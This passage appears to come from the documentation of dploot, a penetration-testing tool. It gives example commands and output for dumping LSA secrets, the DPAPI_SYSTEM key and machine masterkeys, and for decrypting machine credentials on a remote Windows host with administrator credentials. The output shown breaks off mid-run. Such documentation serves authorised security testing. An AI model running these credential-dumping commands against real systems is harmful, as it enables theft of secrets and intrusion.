 The **triage** command runs the user [credentials](#credentials), [vaults](#vaults), [rdg](#rdg), and [certificates](#certificates) commands.

### Machine Triage

#### machinemasterkeys

The **machinemasterkeys** command will dump LSA secrets with RemoteRegistry to retrieve DPAPI_SYSTEM key which will the be used to decrypt any found machine masterkeys. It will return a set of masterkey {GUID}:SHA1 mappings.

```text
$ dploot machinemasterkeys waza.local/Administrator:'Password!123'@192.168.57.5
[*] Connected to 192.168.57.5 as waza.local\Administrator (admin)
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x7d12d83df2060285163096f110c18535
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
[*] DPAPI_SYSTEM
[*] NL$KM
[*] Found SYSTEM system MasterKey: \\192.168.57.5\C$\Windows\System32\Microsoft\Protect\S-1-5-18\07e6e8d6-7eae-4780-9aac-641818ddd9bb
[*] Found SYSTEM system MasterKey: \\192.168.57.5\C$\Windows\System32\Microsoft\Protect\S-1-5-18\a87bcad8-5ed9-4f09-a9f7-34d77e20d0d4
[*] Found SYSTEM system MasterKey: \\192.168.57.5\C$\Windows\System32\Microsoft\Protect\S-1-5-18\d03a0e3b-b616-4a29-8795-9ca09960de35
[*] Found SYSTEM user MasterKey: \\192.168.57.5\C$\Windows\System32\Microsoft\Protect\S-1-5-18\User\69b3f620-eca1-45c1-a003-f1d0a8598c57
[*] Found SYSTEM user MasterKey: \\192.168.57.5\C$\Windows\System32\Microsoft\Protect\S-1-5-18\User\9a270191-3f43-46d1-9935-5892dca2a9a2
[*] Found SYSTEM user MasterKey: \\192.168.57.5\C$\Windows\System32\Microsoft\Protect\S-1-5-18\User\e85c4ab7-65d3-45df-9abe-829c2ead1c5f
{07e6e8d6-7eae-4780-9aac-641818ddd9bb}:ddb9fa17d4e9ab12[...]
{a87bcad8-5ed9-4f09-a9f7-34d77e20d0d4}:e4661cd36f07bb1f[...]
{d03a0e3b-b616-4a29-8795-9ca09960de35}:a45fdd01699bfbc5[...]
{69b3f620-eca1-45c1-a003-f1d0a8598c57}:2862216b21e96fa6[...]
{9a270191-3f43-46d1-9935-5892dca2a9a2}:d3cb43dd6645d26d[...]
{e85c4ab7-65d3-45df-9abe-829c2ead1c5f}:c2a118094fb7cf85[...]
```

#### machinecredentials

The **machinecredentials** command will get any machine Credentials file found and decrypt them with `-mkfile FILE` of one or more {GUID}:SHA1, otherwise dploot will dump DPAPI_SYSTEM LSA secret key in order to decrypt any machine masterkeys, and then decrypt any found encrypted DPAPI XXX blob.

```text
$ dploot machinecredentials waza.local/Administrator:'Password!123'@192.168.57.5
[*] Connected to 192.168.57.5 as waza.local\Administrator (admin)
[*] Triage SYSTEM masterkeys

[*] Target system bootKey: 0x7d12d83df2060285163096f110c18535
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
[*] DPAPI_SYSTEM
[*] NL$KM
[*] Found SYSTEM system MasterKey: \\192.168.57.5\C$\Windows\System32\Microsoft\Protect\S-1-5-18\07e6e8d6-7eae-4780-9aac-641818ddd9bb
[*] Found SYSTEM system MasterKey: \\192.168.57.5\C$\Windows\System32\Microsoft\Protect\S-1-5-18\a87bcad8-5ed9-4f09-a9f7-34d77e20d0d4
[*] Found SYSTEM system MasterKey: \\192.168.57.5\C$\Windows\System32\Microsoft\Protect\S-1-5-18\d03a0e3b-b616-4a29-8795-9ca09960de35
[*] Found SYSTEM user MasterKey: \\192.168.57.5\C$\Windows\System32\Microsoft\Protect\S-1-5-18\User\69b3f620-eca1-45c1-a003-f1d0a8598c57
```